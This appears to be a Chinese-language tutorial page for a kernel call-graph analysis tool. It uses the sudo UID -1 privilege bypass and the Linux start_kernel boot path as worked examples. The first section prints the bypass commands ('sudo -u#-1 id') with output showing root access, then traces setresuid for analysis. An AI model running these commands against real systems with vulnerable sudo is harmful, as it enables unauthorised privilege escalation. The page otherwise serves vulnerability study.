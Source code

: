# 例子

## sudo漏洞

### 漏洞内容

在特定配置环境下，非特权用户通过将sudo将自身uid设置为-1或4294967295时，可绕过配置的限制条件，以sudo用户权限执行。

详细内容如下：

> 首先添加一个系统帐号 test_sudo 作为实验所用
> 然后用 root 身份在 /etc/sudoers 中增加：
>
> test_sudo ALL=(ALL,!root) /usr/bin/id
>
> 表示允许 test_sudo 帐号以非 root 外的身份执行 /usr/bin/id，如果试图以 root 帐号运行 id 命令则会被拒绝：
>
> [test_sudo@localhost ~] $ sudo id
> 对不起，用户 test_sudo 无权以 root 的身份在 localhost.localdomain 上执行 /bin/id。
>
> sudo -u 也可以通过指定 UID 的方式来代替用户，当指定的 UID 为 -1 或 4294967295（-1 的补码，其实内部是按无符号整数处理的） 时，因此可以触发漏洞，绕过上面的限制并以 root 身份执行命令：
>
> [test_sudo@localhost ~]$ sudo -u#-1 id
> uid=0(root) gid=1004(test_sudo) 组=1004(test_sudo) 环境=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
> [test_sudo@localhost ~]$ sudo -u#4294967295 id
> uid=0(root) gid=1004(test_sudo) 组=1004(test_sudo) 环境=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
>
> <https://paper.seebug.org/1057/>

### 分析平台辅助

通过 strace 跟踪 命令执行时的系统调用:

```sh
[root@localhost ~]# strace -u test_sudo sudo -u#-1 id
```

输出的系统调用中,出现多个设置用户id系统调用,以setresuid为例:

```c
setresuid(-1, -1, -1)                   = 0
```

sudo 内部调用了 setresuid 来提升权限（虽然还调用了其他设置组之类的函数，但先不做分析），并且传入的参数都是 -1。

由动态跟踪的内容,确定要分析的函数为 setresuid():

在函数调用图中将setresuid()函数设置为源路径,查看其调用内容:

![调用图](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200512171120.png)

能够明确看出,函数内调用kernel与security模块中函数,右键边查看函数调用列表:

![表1](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200512171607.png)

![表2](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200512171642.png)

通过节点右键菜单可以查看源码:

![右键](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200512182406.png)

![源码](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200512182512.png)

函数调用列表与源码中一致

通过调用图的筛选边和展开节点功能,能够快速帮助研究人员找到当前函数所关联模块

![展开+筛选](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200512185521.png)

## Linux启动

> <https://blog.csdn.net/perfect1t/article/details/81741531>

通过链接脚本和汇编文件确定内核引导阶段后，会进入 start_kernel 函数，进行初始化。

确定函数所在文件为 /init/Main.c，打开分析平台，选择内核版本和平台，将源路径选为Main.c，目标路径选为/，能够查看调用图，使用调用图筛选和拖动等功能，可以实现更好的查看效果：

![内核启动](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200513112809.png)

对于需要分析的模块，可以通过节点展开、查看函数调用表等方式获取详细信息。如，查看 start_kernel 种对 fs 模块的调用表：

![fs调用表](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200513124421.png)

结合源码行号查看，可以辅助研究者分析模块间调用关系，快速确定源码中函数所在位置及模块间调用关系。

平台提供了，调用图到源码、调用图到调用列表、调用列表到源码的跳转关系，使用者从整体模块间调用开始，查看模块间调用函数，到查看调用行代码，逐步细化分析内容。
